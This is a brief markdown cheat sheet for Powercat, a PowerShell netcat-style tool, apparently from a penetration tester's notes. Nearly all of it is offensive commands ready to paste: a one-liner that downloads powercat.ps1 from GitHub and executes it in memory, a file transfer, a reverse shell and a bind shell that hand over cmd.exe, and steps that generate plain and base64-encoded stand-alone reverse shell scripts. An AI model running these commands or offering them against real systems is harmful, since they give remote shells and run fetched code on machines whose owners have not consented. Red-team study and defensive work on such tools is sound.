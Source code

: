 # Powercat

## Common Options

* \-c \<ip> : client mode
* \-l : listener mode
* \-p \<port> : port to listen on or to connect to
* \-e \<bin> : process to start
* \-i \<file> : file to be sent
* \-g : generate payload
* \-ge : generate encoded payload

## Download Script

```
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

## File Transfer

```
powercat -c 127.0.0.1 -p 8080 -i C:\Users\hauntedsandwich\powercat.ps1
```

## Reverse Shell

```
powercat -c 127.0.0.1 -p 8080 -e cmd.exe
```

## Bind Shell

```
powercat -l -p 8080 -e cmd.exe
```

## Stand-Alone Payloads

```
powercat -c 127.0.0.1 -p 8080 -e cmd.exe -g > reverseshell.ps1
./reverseshell.ps1

powercat -c 127.0.0.1 -p 8080 -e cmd.exe -ge > encodedreverseshell.ps1
powershell -E [...encoded reverse shell...]
```
